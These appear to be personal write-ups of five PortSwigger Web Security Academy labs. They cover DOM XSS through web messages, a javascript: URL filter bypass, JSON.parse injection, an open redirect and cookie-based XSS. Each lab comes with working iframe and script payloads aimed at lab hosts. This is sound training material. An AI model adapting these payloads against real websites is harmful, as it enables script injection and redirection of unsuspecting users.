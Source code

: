 # Portswigger Writeups

## Lab 1: DOM XSS Using Web Messages

To solve the lab, call `print()` for the victim. I am given an exploit server. Since this is DOM XSS, the lab requires us to identify a sink and pass some JS input into it.

I noticed this bit in the `/` directory:

```js
window.addEventListener('message', function(e) {
    document.getElementById('ads').innerHTML = e.data;
})
```

The `addEventListener` function waits for a `message` on the `window` object. Upon its existence, it sets the `innerHTML` to the message `e.data`.

This is vulnerable because it takes some user controlled input and passes it to `innerHTML`. The `innerHTML` sink does not accept `<script>` elements on the modern browser, so I have to use `iframe` or `img`.

So firstly, I have to find a way to send a `message` to this thing. Reading the Mozilla documentation shows that I can use the `postMessage()` function to enable cross-origin communication between `window` objects.

{% embed url="https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage" %}


So I can use an `iframe` to make the user visit the shop. Afterwards, I can refer to the current `iframe` via `contentWindow`.

{% embed url="https://developer.mozilla.org/en-US/docs/Web/API/HTMLIFrameElement/contentWindow" %}

Then, I can use `onload` to load the `postMessage` function, which passes the payload to the website and executes it within the user's browser. The `targetOrigin`, which is the second argument for `postMessage` is set to `*`.

This specifies that there is no preference for the origin of the window to be for the event to be executed, meaning the event will always execute regardless.

Thus, the final payload is:

```html
<iframe src="https://0adc00ec0335325e8357f58f00bd0031.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```

## Lab 2: Web Messages and Javascript URL

This demonstrates a DOM-based redirection vulnerability caused by web messaging. To solve the lab, construct a HTML page that calls `print()` and deliver it to the victim.

Here's the code in the page:

```js
window.addEventListener('message', function(e) {
    var url = e.data;
    if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
        location.href = url;
    }
}, false);
```

Similar to the one above, just that this time it checks for the existence of `http:` or `https:` before carrying on. This `indexOf` simply checks whether it is `> -1`. This means that as long as I include `http:` anywhere in the URL, I can bypass this check and get to the redirect vulnerability.

The payload used is similar to Lab 1, but this time I have to pass a `url` to the page. The lab says to use Javascript URLs, and I can use `//` to comment the `http:` portion:

```html
<iframe src="https://0ac500f80450410e8167209500bb0003.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">
```

## Lab 3: Web Messages and `JSON.Parse`

Same as above, just that this time I have to pass a JSON object. The Javascript embedded in the page is significantly longer:

```js
window.addEventListener('message', function(e) {
    var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
    document.body.appendChild(iframe);
    try {
        d = JSON.parse(e.data);
    } catch(e) {
        return;
    }
    switch(d.type) {
        case "page-load":
            ACMEplayer.element.scrollIntoView();
            break;
        case "load-channel":
            ACMEplayer.element.src = d.url;
            break;
        case "player-height-changed":
            ACMEplayer.element.style.width = d.width + "px";
            ACMEplayer.element.style.height = d.height + "px";
            break;
    }
}, false);
```

The most notable `d.type` would be `d.url`, since it directly passes `d.url` to `.src.`. This allows for me to pass Javascript URLs.

To exploit this, I would need to first generate a JSON object, and then specify the `type` as `load-channel`, and then `url` as `javascript:print()`.

Here's the final payload, and there are lot of control characters required.

```html
<iframe src="https://0a49002304351ed583233c9300dc0044.web-security-academy.net/" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```

## Lab 4: Open Redirection

This lab contains an open-redirection vulnerability. To solve the lab, redirect the vi9ctim to the exploit server.

When viewing a product, I noticed this at the bottom of the page source:

```html
<div class="is-linkback">
    <a href='#' onclick='returnUrl = /url=(https?:\/\/.+)/.exec(location); location.href = returnUrl ? returnUrl[1] : "/"'>Back to Blog</a>
</div>
```

What this does is take the `url` parameter from the URL and then redirects the user to it. It checks for this via Regex (hence explaining the syntax highlighting). It checks the URL because it uses `.exec(location)`. The `location` object refers to the URL it is linked to.

There's a ternary operator, which basically checks for the `returnUrl` parameter existence. If it does not exist, it returns the user to `/`.

There is an obvious open redirect since the `url` parameter is controlled by the user, and it is passed to the `location.href` sink.

To solve the lab, just visit `https://0a380022033605cb8014628100a40070.web-security-academy.net/postId=3&url=https://exploit-0ae900e3037c054a808161c001d1006a.exploit-server.net/exploit`.

## Lab 5: Cookie Manipulation

This lab has a cookie vulnerable to XSS. To solve the lab, call `print()` for the victim. When visiting a product page, this is the cookie sent:

![](../../.gitbook/assets/portswigger-domxss-writeup-image.png)

And here's the Javascript code within the page:

```js
document.cookie = 'lastViewedProduct=' + window.location + '; SameSite=None; Secure'
```

The cookie changes this part of the page:

![](../../.gitbook/assets/portswigger-domxss-writeup-image-1.png)

```html
<a href='https://0a7900c003d489dd868e9ae5002700a4.web-security-academy.net/product?productId=2'>Last viewed product</a><p>|</p>
```

The above can be escaped to execute XSS. Using `?productId=2'><script>alert(1)</script>` results in an invalid product ID. Including an `&` character to indicate another parameter works:

```
?productId=2&'><script>alert(1)</script>
```

To call this, I have to visit the page twice with the same URL in order to set the `lastViewedProduct` cookie. 

![](../../.gitbook/assets/portswigger-domxss-writeup-image-2.png)

So somehow, I have to make the user visit the same page twice, once with the payload and once without.

The easiest way to do this is:

1. Make the user visit the page with the payload.
2. Wait a bit.
3. Redirect the user back to the default page.

The wait can be done using `setTimeout()`, and the redirect can be done with `document.location`.

```js
<iframe src="https://0a7900c003d489dd868e9ae5002700a4.web-security-academy.net/product?productId=2&xss='><script>print()</script>"></iframe>
<script>
setTimeout(function() {
    document.location.href = "https://0a7900c003d489dd868e9ae5002700a4.web-security-academy.net";
}, 2000);
</script>
```

